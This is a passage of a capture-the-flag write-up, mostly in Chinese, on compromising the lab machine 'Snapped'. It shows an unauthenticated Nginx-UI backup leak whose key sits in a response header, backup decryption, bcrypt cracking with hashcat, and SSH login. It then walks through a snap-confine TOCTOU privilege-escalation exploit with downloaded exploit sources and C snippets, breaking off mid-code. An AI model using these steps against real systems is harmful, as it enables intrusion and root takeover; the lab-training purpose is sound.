

## Snapped
```
[★]$ nmap -sC -sV 10.129.17.89
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-08 03:08 CDT
Nmap scan report for 10.129.17.89
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://snapped.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
[★]$ echo '10.129.17.89 snapped.htb' | sudo tee -a /etc/hosts
```
#### 这似乎是一家名为 Snapped 的公司的 Apache 基础设施平台网站。这似乎是一家名为 Snapped 的公司的 Apache 基础设施平台网站。主页上似乎没有什么有趣的内容，所以让我们用 FFUF 查找可能访问的其他子域或目录。
```
[★]$ ls /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```
<details>
<summary>http://FUZZ.snapped.htb	❌ DNS解析失败</summary>

```
[★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.snapped.htb -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://FUZZ.snapped.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [1/100000] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Erro:: 
```
</details>

<details>
<summary>[http://FUZZ.snapped.htb	❌ DNS解析失败](http://snapped.htb + Host头	✅ 正确)</summary>

```
[★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-u http://snapped.htb \
-H "Host: FUZZ.snapped.htb" \
-fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snapped.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.snapped.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________
mx                      [Status: 302, Size: 154, Words: 4, Lines: 8, Duration: 9ms]
...<SNIP>...
admin                   [Status: 200, Size: 1407, Words: 164, Lines: 50, Duration: 19ms]
```
</details>

#### 我们找到管理子域，并将其添加到我们的 /etc/hosts 文件中。然后，当我们在浏览器中访问它时，会看到 Nginx-UI 的默认登录页面，这是一个网站管理服务。
```
[★]$ sudo sed -i '/snapped\.htb$/ s/$/ admin.snapped.htb/' /etc/hosts
```
### Foothold
#### 我们无法使用任何默认凭证登录，所以让我们对 Nginx-UI 进行更多枚举。首先，如果我们观察首次访问 /login 端点时发出的请求，会发现它调用了 /api/install 

#### 让我们尝试对其他我们可能能够访问的 /api 端点进行模糊测试。
```
[★]$ ls /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

[★]$ ffuf -w /usr//wordlists/dirbuster/directory-list-2.3-small.txt -u http://admin.snapped.htb/api/FUZZ -ic
...<SNIP>...
config                  [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 11ms]
backup                  [Status: 200, Size: 18354, Words: 86, Lines: 64, Duration: 60ms]
settings                [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 17ms]
licenses                [Status: 200, Size: 52782, Words: 9, Lines: 1, Duration: 58ms]
...</SNIP>...
//403 和 200 同时出现 → 很可能存在权限控制点（有价值）
```
#### 我们将会看到各种各样的 403 错误响应，但其中有两个是成功的。其中 /api/backup 这个端点比较有趣。让我们使用 cURL 来查看它会给我们返回什么结果。
```
[★]$ curl -v http://admin.snapped.htb/api/backup
*   Trying 10.129.17.89:80...
* Connected to admin.snapped.htb (10.129.17.89) port 80 (#0)
> GET /api/backup HTTP/1.1
> Host: admin.snapped.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.24.0 (Ubuntu)
< Date: Wed, 08 Apr 2026 09:16:14 GMT
< Content-Type: application/zip
< Content-Length: 18354
< Connection: keep-alive
< Accept-Ranges: bytes
< Cache-Control: must-revalidate
< Content-Description: File Transfer
< Content-Disposition: attachment; filename=backup-20260408-051614.zip  <----
< Content-Transfer-Encoding: binary
< Expires: 0
< Last-Modified: Wed, 08 Apr 2026 09:16:14 GMT
< Pragma: public
< Request-Id: a1f29ccb-ec37-4c6c-97b6-b675ee42e6d5
< X-Backup-Security: u22Nc23m2OgIlYmBtRQwP8VL/pU3IOdzYJ59woAZv/8=:eIthO679S62WMoMLwSDVkg==  <----
< 
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
* Failure writing output to destination
* Closing connection 0
```
#### 它似乎正在发送一个文件，名为“backup-20260319-121113.zip”，并且“X-Backup-Security”这一标头也很有趣。经过一番研究，我们发现 Nginx-ui 版本 2.3.2 存在 CVE-2026-27944 这一漏洞。该漏洞允许未经身份验证的用户访问 /api/backup 端点，同时还会在“X-Backup-Security”响应标头中泄露用于解密备份所需的加密密钥。这就是我们所发现的情况。
https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762
#### 但如果我们想再次确认版本是否正确，我们可以使用这个 POC（演示代码），它会运行各种扫描来在 HTML 标头、可用的 JS 文件以及 /api 端点中搜索版本号。它会立即为我们确认版本。
https://github.com/NULL200OK/-nginxui_discover/blob/main/nginxui_discover.py
```
[★]$ wget https://raw.githubusercontent.com/NULL200OK/-nginxui_discover/refs/heads/main/nginxui_discover.py
```
<details>
<summary>python3 nginxui_discover.py --target http://admin.snapped.htb</summary>

```
[★]$ python3 nginxui_discover.py --target http://admin.snapped.htb


███╗░░██╗██╗░░░██╗██╗░░░░░██╗░░░░░██████╗░░█████╗░░█████╗░  ░█████╗░██╗░░██╗
████╗░██║██║░░░██║██║░░░░░██║░░░░░╚════██╗██╔══██╗██╔══██╗  ██╔══██╗██║░██╔╝
██╔██╗██║██║░░░██║██║░░░░░██║░░░░░░░███╔═╝██║░░██║██║░░██║  ██║░░██║█████═╝░
██║╚████║██║░░░██║██║░░░░░██║░░░░░██╔══╝░░██║░░██║██║░░██║  ██║░░██║██╔═██╗░
██║░╚███║╚██████╔╝███████╗███████╗███████╗╚█████╔╝╚█████╔╝  ╚█████╔╝██║░╚██╗
╚═╝░░╚══╝░╚═════╝░╚══════╝╚══════╝╚══════╝░╚════╝░░╚════╝░  ░╚════╝░╚═╝░░╚═╝
nginxui_discover.py - Nginx UI Instance Discovery & Version Scanner
Discover Nginx UI web interfaces and identify versions ≤2.3.2 vulnerable to CVE-2026-27944
– NULL200OL-AI💀🔥created by NABEEL


======================================================================
Nginx UI Discovery Scanner - CVE-2026-27944 Version Detection
======================================================================
Threads: 20 | Timeout: 5s | Date: 2026-04-08 04:23:10
======================================================================
[*] Starting scan of 1 targets × 8 ports = 8 checks
[*] Press Ctrl+C to stop...

[1/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[2/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[3/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[4/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[5/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[6/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[7/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%
[8/8] 🔴 VULNERABLE | http://admin.snapped.htb | v≤2.3.2 (vulnerable - header present) | confidence: 80.0%

======================================================================
SCAN SUMMARY
======================================================================
Total targets scanned: 1
Total ports checked: 8
Nginx UI instances found: 8
  - Vulnerable (≤2.3.2): 8
  - Patched/Unknown: 0

[+] Discovered Nginx UI instances:
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
  🔴 http://admin.snapped.htb - v≤2.3.2 (vulnerable - header present)
```
</details>

#### 该端点创建的备份将包含 nginx 和 nginx-ui 的配置文件，包括 nginx-ui 的 database.db 文件。之前链接的 GitHub 告知中还包含了一个用于自动执行以下步骤的演示脚本，但我们将手动完成这些操作。
#### 让我们使用 cURL 访问该端点并下载备份。
```
[★]$ curl -OJ -v http://admin.snapped.htb/api/backup  //-O 按远程文件名保存；-J 使用服务器返回的文件名
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 10.129.17.89:80...
* Connected to admin.snapped.htb (10.129.17.89) port 80 (#0)
> GET /api/backup HTTP/1.1
> Host: admin.snapped.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.24.0 (Ubuntu)
< Date: Wed, 08 Apr 2026 09:24:59 GMT
< Content-Type: application/zip
< Content-Length: 18354
< Connection: keep-alive
< Accept-Ranges: bytes
< Cache-Control: must-revalidate
< Content-Description: File Transfer
< Content-Disposition: attachment; filename=backup-20260408-052459.zip
< Content-Transfer-Encoding: binary
< Expires: 0
< Last-Modified: Wed, 08 Apr 2026 09:24:59 GMT
< Pragma: public
< Request-Id: 955720ca-0f9c-42e3-b0ec-a8bc539c740d
< X-Backup-Security: Vxc0uRonbp1SeuSBOALRDvKaOKNpN81YXpHcF0SFjcw=:iX85sm7XYqhjH777ZRe5bA==
< 
{ [776 bytes data]
100 18354  100 18354    0     0   262k      0 --:--:-- --:--:-- --:--:--  263k
* Connection #0 to host admin.snapped.htb left intact
[★]$ ls
backup-20260408-052459.zip  
```
#### 我们首先会解密安全头部信息，这将为我们提供密钥：iv 。我们将分别从 base64 格式中对两者进行解码，然后将其转换为十六进制字符串。
```
[★]$ key=$(echo 'Vxc0uRonbp1SeuSBOALRDvKaOKNpN81YXpHcF0SFjcw=' | base64 -d | xxd -p -c 256)
[★]$ echo $key
571734b91a276e9d527ae4813802d10ef29a38a36937cd585e91dc1744858dcc

[★]$ iv=$(echo 'iX85sm7XYqhjH777ZRe5bA==' | base64 -d | xxd -p)
[★]$ echo $iv
897f39b26ed762a8631fbefb6517b96c
```
#### 有了这些，我们就具备了解密备份文件所需的一切条件。首先，我们将把它解压到一个新的文件夹中。目录。
```
[★]$ unzip -d backup backup-20260408-052459.zip
Archive:  backup-20260408-052459.zip
  inflating: backup/hash_info.txt    
  inflating: backup/nginx-ui.zip     
  inflating: backup/nginx.zip
```
#### 然后我们将使用 openssl 来解密 nginx-ui.zip 文件
```
参数	含义
-K	hex格式的 key
-iv	hex格式的 IV

[★]$ cd backup
[~/backup][★]$ ls
hash_info.txt  nginx-ui.zip  nginx.zip

[~/backup][★]$ openssl enc -aes-256-cbc -d -in nginx-ui.zip -out ngixui_decrypted.zip -K 571734b91a276e9d527ae4813802d10ef29a38a36937cd585e91dc1744858dcc -iv 897f39b26ed762a8631fbefb6517b96c

[~/backup][★]$ ls
hash_info.txt  nginx-ui.zip  nginx.zip  ngixui_decrypted.zip
```
#### 这将会生成名为“nginxui_decrypted.zip”的文件，所以我们也要对其进行解压，而在解压后的文件夹中会有一个名为“database.db”的文件。
```
[~/backup][★]$ unzip ngixui_decrypted.zip
Archive:  ngixui_decrypted.zip
  inflating: app.ini                 
  inflating: database.db
```
#### 让我们使用 sqlite3 对其进行检查，列出所有表，然后查看“用户”表的内容。
```
[★]$ sqlite3 database.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
acme_users         configs            namespaces         sites            
auth_tokens        dns_credentials    nginx_log_indices  streams          
auto_backups       dns_domains        nodes              upstream_configs 
ban_ips            external_notifies  notifications      users            
certs              llm_sessions       passkeys         
config_backups     migrations         site_configs     
sqlite> 
sqlite> select * from users;
1|2026-03-19 08:22:54.41011219-04:00|2026-03-19 08:39:11.562741743-04:00||admin|$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm|1||g�

|�7�ĝ�*�:�(��\�D�O�}u#,�|en
2|2026-03-19 09:54:01.989628406-04:00|2026-03-19 09:54:01.989628406-04:00||jonathan|$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq|1||,��զ�H�։��e)5U��Z��KĦ"D���W�|en
sqlite> 
sqlite> .exit
```
#### 我们找到了两个 bcrypt 哈希值，我们可以将它们存入一个文件中，并使用 hashcat 进行破解，但只有第二个哈希值能够成功破解。
```
[~/backup][★]$ echo '$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm' > hash
[~/backup][★]$ echo '$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq' | tee -a hash
$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq
[~/backup][★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[~/backup][★]$ gunzip rockyou.txt.gz
[~/backup][★]$ hashcat -m 3200  hash rockyou.txt

$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => q
Session..........: hashcat
Status...........: Quit
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
```
#### 我们现在已经在 Nginx-UI 平台上获取到了jonathan的凭证。接下来我们来看看他是否将这些凭证用于 SSH 了。
```
[★]$ ssh jonathan@snapped.htb
jonathan@snapped:~$ cat user.txt
```
### Privilege Escalation
#### 对文件系统进行列举后，我们发现 snapd 正在被使用，并且我们还检查了其版本。
```
jonathan@snapped:~$ snap --version
snap    2.63.1+24.04
snapd   2.63.1+24.04
series  16
ubuntu  24.04
kernel  6.17.0-19-generic

jonathan@snapped:~/snap$ ls -la
total 12
drwx------  3 jonathan jonathan 4096 Mar 20 11:38 .
drwxr-x--- 15 jonathan jonathan 4096 Mar 20 12:28 ..
drwxr-xr-x  4 jonathan jonathan 4096 Mar 20 11:38 snapd-desktop-integration

```
#### 我们在谷歌上搜索了有关最新 snapd 漏洞的信息，发现 Quayls 发布了这样的声明：所有版本（包括 2.74.2 之前的所有版本）都存在针对默认 Ubuntu 图形用户界面安装的攻击漏洞。目标所使用的 Ubuntu 24.04 系统中，snap-confine 是一个 SUID-root 二进制文件，它会在任何 snap 运行之前构建沙盒环境。而在 Ubuntu 25.10 及更高版本中，snap-confine 则具有相应的权限。这种设置的一部分内容包括创建模拟文件，即可写入的只读文件系统目录的副本。
-----------------------------------------------------------------------------------------
```
[★]$ wget https://raw.githubusercontent.com/nomaisthere/CVE-2026-3888/refs/heads/main/src/firefox_2404.c
[★]$ wget https://raw.githubusercontent.com/nomaisthere/CVE-2026-3888/refs/heads/main/src/librootshell.c
[★]$ gcc -O2 -static -o firefox_2404 firefox_2404.c
[★]$ gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell.c
[★]$ scp firefox_2404  librootshell.so jonathan@10.129.20.138:/home/jonathan
jonathan@10.129.20.138's password: 
firefox_2404                                  100%  768KB 301.7KB/s   00:02    
librootshell.so                               100% 9056    37.9KB/s   00:00   
```
```
jonathan@snapped:~$ ls -la /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 159016 Aug 20  2024 /usr/lib/snapd/snap-confine
jonathan@snapped:~$ cat /usr/lib/tmpfiles.d/tmp.conf
#  This file is part of systemd.
#
#  systemd is free software; you can redistribute it and/or modify it
#  under the terms of the GNU Lesser General Public License as published by
#  the Free Software Foundation; either version 2.1 of the License, or
#  (at your option) any later version.

# See tmpfiles.d(5) for details

# Clear tmp directories separately, to make them easier to override
D /tmp 1777 root root 4m
#q /var/tmp 1777 root root 30d
jonathan@snapped:~$ cat /usr/lib/tmpfiles.d/snapd.conf
D! /tmp/snap-private-tmp 0700 root root -
```
#### 这个内部的 /tmp 目录就是作为 snap 沙盒内的 /tmp 目录进行绑定挂载的。当您在 firefox snap 内运行并执行 ls /tmp 命令时，实际上查看的是主机上的 /tmp/snap-private-tmp/snap.firefox/tmp/ 目录。
#### 需要理解的关键概念是模拟器。许多 snap 需要访问其基础 squashfs 映像中不存在的主机库。例如，firefox 需要 webkit2gtk-4.0，它位于：
```
jonathan@snapped:/$ ls -la /usr/lib/x86_64-linux-gnu/
<SNIP>
drwxr-xr-x  2 root root      4096 Mar 20 11:38 tracker-3.0
drwxr-xr-x  4 root root      4096 Mar 20 11:38 tracker-miners-3.0
drwxr-xr-x  3 root root      4096 Mar 20 11:38 webkit2gtk-4.1
drwxr-xr-x  3 root root      4096 Mar 20 11:38 webkitgtk-6.0
drwxr-xr-x  2 root root      4096 Mar 20 11:38 wireplumber-0.4
drwxr-xr-x  3 root root      4096 Mar 20 11:38 X11
drwxr-xr-x  2 root root      4096 Mar 20 11:38 xtables
drwxr-xr-x  3 root root      4096 Mar 20 11:38 yelp
jonathan@snapped:/$ ls -la /usr/lib/x86_64-linux-gnu/webkit2gtk-4.0
ls: cannot access '/usr/lib/x86_64-linux-gnu/webkit2gtk-4.0': No such file or directory
```
#### /usr/lib/x86_64-linux-gnu is a read-only squashfs mount.
#### 但在 Snap 的沙盒中，/usr/lib/x86_64-linux-gnu 是一个只读的 squashfs 挂载。您无法在只读文件系统中直接创建新目录。因此，snap-confine 通过执行以下操作来创建一个“模拟”——该目录的可写副本：
```
Step 1: mount --bind /usr/lib/x86_64-linux-gnu
                  → /tmp/.snap/usr/lib/x86_64-linux-gnu

Step 2: mount -t tmpfs tmpfs
                  → /usr/lib/x86_64-linux-gnu
        (now /usr/lib/x86_64-linux-gnu is a fresh, empty, writable tmpfs)

Step 3: for each entry in /tmp/.snap/usr/lib/x86_64-linux-gnu:
            mount --bind /tmp/.snap/usr/lib/x86_64-linux-gnu/<entry>
                      → /usr/lib/x86_64-linux-gnu/<entry>
        (repopulate the tmpfs with bind-mounts of everything from the original)

Step 4: umount /tmp/.snap/usr/lib/x86_64-linux-gnu
        (clean up the staging area)

Step 5: mount--bind /snap/firefox/.../webkit2gtk-4.0
                  -> /usr/lib/x86_64-linux-gnu/webkit2gtk-4.0
        (now the mountpoint exists and can be used)
```
#### 在此之后，在沙盒内部，/usr/lib/x86_64-linux-gnu 目录看起来完全正常——所有原始文件都通过绑定挂载方式存在，并且新的 webkit2gtk-4.0 目录已被添加进来。
#### 问题所在之处
```
再看一下这个模拟序列。具体来说，看一下从步骤 1 到步骤 3 之间 /tmp/.snap 中的内容：
- 在步骤 1 完成后：/tmp/.snap/usr/lib/x86_64-linux-gnu 目录中包含了所有实际库的绑定映射副本 - 步骤 3 从该目录读取内容，并以 root 身份将其中找到的所有内容进行绑定映射到 /usr/lib/x86_64-linux-gnu 目录下
Qualys 提出的问题是：如果攻击者在步骤 1 和步骤 3 之间控制了 /tmp/.snap/usr/lib/x86_64-linux-gnu 的内容，那会怎样？
然后，步骤 3 会将攻击者的文件以 root 身份进行绑定挂载到 /usr/lib/x86_64-linux-gnu 目录下。攻击者将能够控制该命名空间中的每一个共享库——包括动态链接器本身（ld-linux-x86-64.so.2）。

"/tmp/.snap" 文件由根用户拥有权限……
通常情况下，是这样的。"/tmp/.snap" 是由 "snap-confine" 工具以根用户身份（用户名：root，权限设置：0755）创建的。非特权用户无法修改其内容。
然而，systemd-tmpfiles 会在一段时间内未对 /tmp/.snap 进行访问或修改的情况下将其删除。而 /tmp 自身是可被所有人读写的（权限设置为 1777）。因此，在删除之后，没有权限的攻击者可以重新创建 /tmp/.snap 并将其据为己有。
这就是该漏洞的核心所在

接下来：竞争条件
该漏洞的性质已经明确，但要利用它则需要在模拟序列的步骤 1 和步骤 3 之间完成一场竞赛。
请阅读 02 - “TOCTOU 竞争条件”以了解如何可靠地实现这一操作。
```
### 02-The TOCTOU Race Condition
#### 根据 Qualys 公司于 2026 年 3 月 17 日发布的关于 CVE-2026-3888 的安全公告。
```
TOCTOU是什么？
TOCTOU 代表Time-Of-Check to Time-Of-Use（检查时间到使用时间）。它描述了一类竞争条件，其中：

程序会检查某些条件（例如“此目录是否包含安全文件？”）。
检查和使用之间会经过一段时间。
攻击者在该窗口期内修改了状态。
该程序正在使用该资源，但该资源目前处于攻击者控制的状态。
在 CVE-2026-3888 中，“检查”是步骤 1（snap-confine 将实际库读取到指定位置/tmp/.snap），“使用”是步骤 3（snap-confine 以 root 用户身份绑定挂载所有内容/tmp/.snap）。这两个步骤之间的时间窗口就是竞争条件。
```
#### 比赛安排 
#### 第一阶段：进入沙盒,要拥有一个/tmp/.snap可供使用的目录，首先需要设置 snap 的沙箱：
```
jonathan@snapped:~$ systemd-run --user --scope --unit=snap.init$(date +%s) env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base core22 snap.firefox.hook.configure /bin/bash
...<SNIP>...
jonathan@snapped:/home/jonathan$ ls /tmp/.snap
snap  usr
jonathan@snapped:/home/jonathan$ ls -la /tmp
total 12
drwxrwxrwt  4 root root 4096 Apr 14 04:11 .
drwxr-xr-x 21 root root  540 Apr 14 04:11 ..
drwxrwxrwt  2 root root 4096 Apr 14 02:50 .X11-unix
drwxr-xr-x  4 root root 4096 Apr 14 04:11 .snap
```
#### 在沙盒环境中，您位于 snap 包的/tmp目录中，该目录在主机上为：/tmp/snap-private-tmp/snap.firefox/tmp/ 
#### 并且/tmp/.snap是由 snap-confine 创建的root:root 0755
#### 第二阶段：等待 systemd-tmpfiles
#### 策略是保持/tmp沙盒的活力（使其持续存在），同时让其/tmp/.snap逐渐老化：
```
jonathan@snapped:~$ systemd-run --user --scope --unit=snap.init$(date +%s) \
  env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine \
  --base core22 snap.firefox.hook.configure /bin/bash
Running as unit: snap.init1776156713.scope; invocation ID: 533040603f9444328c1b81bf9362a8fd
bash: /home/jonathan/.bashrc: Permission denied
jonathan@snapped:/home/jonathan$ cd /tmp
jonathan@snapped:/tmp$ while test -d ./.snap; do touch ./; sleep 1; done //现在要保持/tmp活跃，同时摒弃.snap陈旧观念
jonathan@snapped:/tmp$ stat ./.snap
stat: cannot statx './.snap': No such file or directory
jonathan@snapped:/tmp$
jonathan@snapped:/tmp$ echo $$
9674

//保持终端1运行，不要关闭它。
//在默认的 Ubuntu 24.04 系统上，这需要 30 天时间。但是，可以通过修改脚本，在几分钟内模拟完成此过程。
```
#### 第三阶段：获取 /tmp/.snap 的所有权
#### 一旦systemd-tmpfiles删除操作完成，攻击者即可通过以下方式从外部/tmp/.snap访问沙箱：/tmp,/proc/PID/cwd
```
cd /proc/<SANDBOX_PID>/cwd
```
#### /tmp现在我们通过挂载命名空间进入了沙箱内部。由于/tmp/.snap它已不存在，我们可以创建它
```
mkdir .snap                    # now attacker-owned
mkdir -p .snap/usr/lib/x86_64-linux-gnu.exchange
```
#### 我们.exchange用真实库目录中的所有库的副本填充，再加上我们的恶意载荷。
#### The Race Window 竞赛窗口
```
竞争窗口存在于设置snap-confine后发出的两条特定调试消息之间：SNAPD_DEBUG=1
触发点（步骤 1 完成）：
mount name:"/usr/lib/x86_64-linux-gnu" dir:"/tmp/.snap/usr/lib/x86_64-linux-gnu"
为时已晚（步骤 3 已完成）：
unmount (none /tmp/.snap/usr/lib/x86_64-linux-gnu none x-snapd.detach 0 0)
在两条消息之间，snap-confine步骤 3 中正在填充 tmpfs。如果我们能在触发之后、步骤 3 读取目录之前.snap/usr/lib/x86_64-linux-gnu将其与我们的.exchange目录交换，我们就成功了。

原子交换通过以下方式完成renameat2(RENAME_EXCHANGE)：
// Atomically swap two directories-no intermediate state
syscall(SYS_renameat2,
    AT_FDCWD, ".snap/usr/lib/x86_64-linux-gnu",   // current (real libs)
    AT_FDCWD, ".snap/usr/lib/x86_64-linux-gnu.exchange",  // our payload
    RENAME_EXCHANGE);
RENAME_EXCHANGE这是一个 Linux 特有的标志，用于原子地交换两个文件系统条目。
从内核的角度来看，交换是瞬间完成的，不会出现任何路径丢失的情况。

问题：时机。
试图检测触发条件然后执行交换这种简单粗暴的方法并不可靠：

-snap-confine执行速度极快 - 步骤 1 和步骤 3 之间的时间窗口仅为微秒级 - 当用户空间检测到触发消息并做出反应时，步骤 3 已经完成

这就是为什么大多数针对此类漏洞的简单竞态条件攻击都会失败的原因。解决方案——也是 Qualys 漏洞利用的关键创新点——在于完全避免竞态条件。而是：降低 snap-confine 的速度，使窗口足够长。

Qualys 的解决方案很巧妙：与其尝试更快地做出反应，不如让 snap-confine 的速度变慢——具体来说，就是在需要的确切时刻无限期地暂停它。

洞察：将 stderr 用作控制通道
SNAPD_DEBUG=1启用此功能后，它会将执行的每个操作（包括每次挂载操作）的snap-confine详细调试输出写入指定位置。关键在于：stderr

snap-confine同步写入这些调试信息
如果目标缓冲区已满，write()则对文件描述符的系统调用会阻塞。
如果我们能让 stderr 文件描述符在每次写入字节时都阻塞，snap-confine那么输出的每个字符都会暂停。
这正是背压技术的原理--The backpressure technique。
```
### How Backpressure Works -- AF/UNXI背压技术
```
//步骤 1：创建缓冲区最小的套接字对
int sv[2];
socketpair(AF_UNIX, SOCK_STREAM, 0, sv);

// Set both send and receive buffers to 1 byte
int bufsize = 1;
setsockopt(sv[0], SOL_SOCKET, SO_RCVBUF, &bufsize, sizeof(bufsize));
setsockopt(sv[0], SOL_SOCKET, SO_SNDBUF, &bufsize, sizeof(bufsize));
setsockopt(sv[1], SOL_SOCKET, SO_RCVBUF, &bufsize, sizeof(bufsize));
setsockopt(sv[1], SOL_SOCKET, SO_SNDBUF, &bufsize, sizeof(bufsize));

//socketpair()创建两个连接的套接字端点——类似于管道，但双向的。
//关键在于SO_RCVBUF=1：SO_SNDBUF=1内核套接字缓冲区都被设置为 1 字节。
//注意：内核可能会将这些值向上取整到最小值，但效果是一样的——缓冲区尽可能小。
_______________________________________________________________
//步骤 2：fork snap-confine 并重定向 stderr
pid_t pid = fork();
if (pid == 0) {
    // Child: this will become snap-confine
    close(sv[0]);              // close the read end
    dup2(sv[1], STDERR_FILENO); // redirect stderr to the write end of the socket将标准错误输出重定向到套接字的写端。
    close(sv[1]);

    setenv("SNAPD_DEBUG", "1", 1);
